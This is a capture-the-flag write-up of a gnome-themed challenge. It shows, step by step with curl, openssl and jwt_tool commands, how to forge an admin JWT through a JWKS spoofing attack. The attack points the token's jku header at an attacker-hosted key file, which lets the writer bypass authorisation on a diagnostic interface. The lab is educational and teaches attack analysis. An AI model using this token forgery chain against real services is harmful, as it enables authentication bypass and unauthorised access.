




Rogue Gnome Identity Provider

The gnomes are downloading a suspicious firmware update, but the diagnostic logs are locked behind a restricted admin panel. I need to exploit a critical flaw in their identity provider to forge a digital signature and escalate my privileges to uncover the truth.
Challenge Overview
The challenge provided a local web server for hosting files and a set of low-privilege credentials for a standard gnome user. Upon logging in, the system redirected me to an Identity Provider that issued a digitally signed token. However, these default credentials lacked the necessary permissions to view the logs to get the flag.
Background Info: JSON Web Token (JWT) and JSON Web Key Set (JWKS)
JSON Web Token (JWT)
A JSON Web Token (RFC 7519) is a compact, URL-safe means of representing claims to be transferred between two parties. A JWT typically consists of three parts, each base64 encoded and separated by dots:
- Header: Indicates the algorithm used to sign the token and the type of token.
- Payload: Contains the "claims" (data), such as the user ID, issue timestamp, and permissions
- Signature: A cryptographic signature used to verify that the sender of the JWT is who it says it is and to ensure that the message wasn't changed along the way.
In this challenge, the application relies on the Signature to trust the Payload. If we can forge a valid signature, we can change the Payload to give ourselves admin rights.
JSON Web Key Set (JWKS)
What is JWKS? To verify the signature, the receiver needs the issuer's public key. A JSON Web Key Set (JWKS) is the standard format for sharing these keys. It is simply a JSON file that lists the public keys used to sign valid tokens. Typically, an application will look up the correct key in this file to verify the signature is legitimate.
Reconnaissance
In addition to the credentials provided, Paul gives us the curl command to login to the Atnas (Santa spelled backwards) Identity Provider and receive a JWT. The JWT is the long string defined by the token parameter.
Side Note: Banner and Notes
Upon logging into Paul’s web server, I noticed a banner message and a notes file in his home directory. The banner provided context about Paul's activities and hinted at the presence of an Identity Provider (IdP) at idp.atnascorp. The notes file contained curl commands that Paul used to interact with the Gnome diagnostic interface and the IdP, as well as the credentials for the gnome user.
Hi, Paul here. Welcome to my web-server. I've been using it for JWT analysis. I've discovered the Gnomes have a diagnostic interface that authenticates to an Atnas identity provider. Unfortunately the gnome:SittingOnAShelf credentials discovered in 2015 don't have sufficient access to view the gnome diagnostic interface. I've kept some notes in ~/notes Can you help me gain access to the Gnome diagnostic interface and discover the name of the file the Gnome downloaded? When you identify the filename, enter it in the badge.
# Sites
## Captured Gnome:
curl http://gnome-48371.atnascorp/
## ATNAS Identity Provider (IdP):
curl http://idp.atnascorp/
## My CyberChef website:
curl http://paulweb.neighborhood/
### My CyberChef site html files:
~/www/
# Credentials
## Gnome credentials (found on a post-it):
Gnome:SittingOnAShelf
# Curl Commands Used in Analysis of Gnome:
## Gnome Diagnostic Interface authentication required page:
curl http://gnome-48371.atnascorp
## Request IDP Login Page
curl http://idp.atnascorp/?return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth
## Authenticate to IDP
curl -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login
## Pass Auth Token to Gnome
curl -v http://gnome-48371.atnascorp/auth?token=<insert-JWT>
## Access Gnome Diagnostic Interface
curl -H 'Cookie: session=<insert-session>' http://gnome-48371.atnascorp/diagnostic-interface
## Analyze the JWT
jwt_tool.py <insert-JWT>paul@paulweb:~$ curl -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login <!doctype html> <html lang=en> ... <p>You should be redirected automatically to the target URL: <a href="http://gnome-48371.atnascorp/auth?token=eyJhbGciOi...
Once we have the JWT token from the authentication response, we can use it to establish a session cookie and then attempt to access the diagnostic interface using the other 2 commands provided in the notes. As expected, we aren't granted access with the low-privilege account's session cookie.
paul@paulweb:~$ curl -v http://gnome-48371.atnascorp/auth?token=eyJhbGciOiJSUzI1Ni... * Host gnome-48371.atnascorp:80 was resolved. ... < Set-Cookie: session=eyJhZG1pbiI6Zm... ... paul@paulweb:~$ curl -H 'Cookie: session=eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ25vbWUifQ.aVoFkw.Eig7j_jr_j0hBCCYbuuXB_IUuC0' http://gnome-48371.atnascorp/diagnostic-interface <!DOCTYPE html> ... <p>Welcome gnome</p><p>Diagnostic access is only available to admins.</p> ...
Using the jwt_tool.py script included in the jwt_tool package, I
decoded the JWT and examined its contents. The token included standard claims such as "username",
"iat" (issued at), and "exp" (expiration time). The admin flag is set to False
confirming that the
credentials provided were for a low-privilege account.
paul@paulweb:~$ jwt_tool.py eyJhbGciO...
\ \ \ \ \ \
\__ | | \ |\__ __| \__ __| |
| | \ | | | \ \ |
| \ | | | __ \ __ \ |
\ | _ | | | | | | | |
| | / \ | | | | | | | |
\ | / \ | | |\ |\ | |
\______/ \__/ \__| \__| \__| \______/ \______/ \__|
Version 2.3.0 \______| @ticarpi
/home/paul/.jwt_tool/jwtconf.ini
Original JWT:
=====================
Decoded Token Values:
=====================
Token header values:
[+] alg = "RS256"
[+] jku = "http://idp.atnascorp/.well-known/jwks.json"
[+] kid = "idp-key-2025"
[+] typ = "JWT"
Token payload values:
[+] sub = "gnome"
[+] iat = 1767490738 ==> TIMESTAMP = 2026-01-04 01:38:58 (UTC)
[+] exp = 1767497938 ==> TIMESTAMP = 2026-01-04 03:38:58 (UTC)
[+] iss = "http://idp.atnascorp/"
[+] admin = False
Seen timestamps:
[*] iat was seen
[*] exp is later than iat by: 0 days, 2 hours, 0 mins
----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
Side Notes: Bash Tricks to Combine curl and jwt_tool.py
To save on copying and pasting, use this command to extract and decode a JWT from a login response in one step:
curl -s -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login | egrep -o 'ey[^"]+' | head -1 | xargs jwt_tool.pyWhat does xargs do? Xargs takes the output from the previous command and passes it as an argument to the next command, in this case, jwt_tool.py.
Alternatively, you can store the JWT in a variable and decode it:
TOKEN=$(curl -s -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login | egrep -o 'ey[^"]+' | head -1)
jwt_tool.py $TOKENOr go straight to decoding the JWT in one command:
jwt_tool.py $(curl -s -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login | egrep -o 'ey[^"]+' | head -1)Alternative Method: jwt.io Website
The jwt_tool is very handy while working in a terminal. Alternatively, you can use the jwt.io website to decode and analyze JWTs in a user-friendly web interface.

This means I can perform a JWKS Spoofing Attack. In this attack, I can:
- Create my own malicious JWT with elevated privileges.
- Sign it with my own private key.
- Change the jku header to point to a JWKS file hosted on my server.
When the application receives this token, it will obediently follow the jku link to my server, download my public key, and successfully verify the signature of my forged token.
Exploitation Chain
To exploit this, I executed a JWKS Spoofing Attack. The attack flow consists of three phases.

Phase 1: Cryptographic Setup
Generate a 2048-bit RSA private key and extract the public key from it.
paul@paulweb:~$ openssl genrsa -out private.pem 2048 paul@paulweb:~$ openssl rsa -in private.pem -pubout -out public.pem
I then needed to convert this public key into the JWKS format. I used the existing one as a template.
paul@paulweb:~$ curl http://idp.atnascorp/.well-known/jwks.json
{
"keys": [
{
"e": "AQAB",
"kid": "idp-key-2025",
"kty": "RSA",
"n": "7WWfvxwIZ44wIZqPFP9...",
"use": "sig"
}
]
}
Side Note: Anatomy of a JWKS File
A JSON Web Key Set (JWKS) is simply a JSON object that represents a set of cryptographic keys. The server uses this file to look up the public key needed to verify a token's signature.
{
"keys": [
{
"kty": "RSA",
"kid": "idp-key-2025",
"use": "sig",
"e": "AQAB",
"n": "t6Q8..."
}
]
}keys: An array of JWK objects. A single file can hold multiple keys (e.g., for rotation).kty(Key Type): Identifies the cryptographic algorithm family. For this challenge, it isRSA.kid(Key ID): A unique identifier. The JWT header contains a matchingkidclaim, telling the server which key to use.use: Identifies the intended use.sigstands for Signature (as opposed toencfor encryption).n(Modulus): The RSA Modulus parameter, Base64URL encoded. This is the massive number derived from the product of two large primes.e(Exponent): The RSA Public Exponent, Base64URL encoded. In almost all standard implementations, this is65537(encoded asAQAB).
Using OpenSSL and some command-line text processing tools, I extracted the modulus (n) and exponent (e) from the public key and formatted them into a JWKS JSON structure.
paul@paulweb:~$ openssl rsa -pubin -in public.pem -modulus -noout | cut -d= -f2 | xxd -r -p | base64
| tr '+/' '-_' | tr -d '='
p-yB83cyFKAdyYgpbfa0uMO3Hgn3mlktJjk1VMsbv7I2bPaQr5X4tgFjkKpY4ds6x77eVMygwEQy
T_P4Xjx-C72rz35dpRgeT8bhfl9u-dlB0MKU_Gs2u8CVgCIgKRK9rAg6FdfWsDg9PLKGUTRLNUVz
SR_Ic6WkTNVTRZHfcf5WdsDUj6zhofpYQ4t0tvfOChC9u3R0XSeV5dQ3x8EsohBCTVWbullNg-oK
3VYB5oFOS_58mWe0EU3TNOnj2DInHceRzNAOutGVPFtBf-BlaPjKI_qemxRhIPfa_zuP2uvDdAyC
enY2hHAWARkA8GZnVdTO6dxpsRtFO9LuNL8SUw
Side Note: Base64URL Encoding vs. Standard Base64
Base64URL encoding is a variant of standard Base64 encoding designed to be safe for use in URLs and filenames. The key differences are:
- Character Set: Base64URL replaces the '+' and '/' characters used in standard Base64 with '-' and '_' respectively.
- Padding: Base64URL omits the '=' padding characters that are often used in standard Base64 to ensure the encoded string's length is a multiple of 4.
These changes prevent issues when the encoded data is included in URLs, as '+' and '/' have special meanings in URL contexts.
Side Note: CyberChef Extract N
CyberChef's PEM to JWK operation can also be used to extract and convert the modulus from a PEM-encoded public key. Unfortunately, we cannot use the CyberChef hosted on Paul's webserver because CyberChef needs a browser to run the JavaScript. curl only retrieves the raw HTML page (This was the reason curl was used in the Mail Detective: Curly IMAP Investigation challenge, it wasn't susceptible to JavaScript execution).

Updating n in the jwks template, we create a file named
malicious_jwks.json in the ~/www
directory per the notes.
Phase 2: Token Forgery
I used jwt_tool to forge the admin token. I utilized the manual signing flags to inject my local
URL and sign with my local key.
jwt_tool.py -T <key> -S rs256 -pr private.pem will prompt you to enter the
token details interactively
and RSA sign it. But this one liner does it all in one go.
paul@paulweb:~$ jwt_tool.py "eyJhbGciOiJSUzI1NiIsImprdSI..."
-I -hc jku -hv "http://paulweb.neighborhood/malicious_jwks.json" \
-pc admin -pv true \
-S rs256 -pr private.pem
This command does the following:
- Inputs the original JWT to preserve claims like
sub,iat, andexp. - Modifies the header to set the
jkuto point to our malicious JWKS file. - Changes the payload to set the
adminclaim toTrue. - Signs the new token using the RSA private key we generated earlier.
The output is a new JWT that appears valid to the Gnome diagnostic interface but grants administrative privileges.
Phase 3: Exploitation (Accessing the Gnome Diagnostic Interface)
With the forged JWT in hand, I proceeded to authenticate to the Gnome diagnostic interface.
I used curl to send the forged token to the authentication endpoint, which returned a session
cookie. I used that to access the diagnostic interface to see that
malicious_firmware.bin was downloaded.
The gnomes were creating a botnet by pushing hacked firmware.
paul@paulweb:~$ curl -H 'Cookie: session=<session-id>' http://gnome-48371.atnascorp/diagnostic-interface <html> ...<body> <h1>Gnome Diagnostic Interface</h1> ... <h2>Downloaded File: malicious_firmware.bin</h2> ...
Challenge Reference Material
Challenge Descriptions
Classic Mode Description
Hike over to Paul in the park for a gnomey authentication puzzle adventure. What malicious firmware image are the gnomes downloading?
CTF Mode Description
As a pentester, I proper love a good privilege escalation challenge, and that's exactly what we've got here. I've got access to a Gnome's Diagnostic Interface at gnome-48371.atnascorp with the creds `gnome:SittingOnAShelf`, but it's just a low-privilege account. The gnomes are getting some dodgy updates, and I need admin access to see what's actually going on. Ready to help me find a way to bump up our access level, yeah?
Official Hints
- It looks like the JWT uses JWKS. Maybe a JWKS spoofing attack would work.
- https://github.com/ticarpi/jwt_tool/wiki and https://portswigger.net/web-security/jwt have some great information on analyzing JWT's and performing JWT attacks.
- If you need to host any files for the attack, the server is running a webserver available locally at http://paulweb.neighborhood/ . The files for the site are stored in ~/www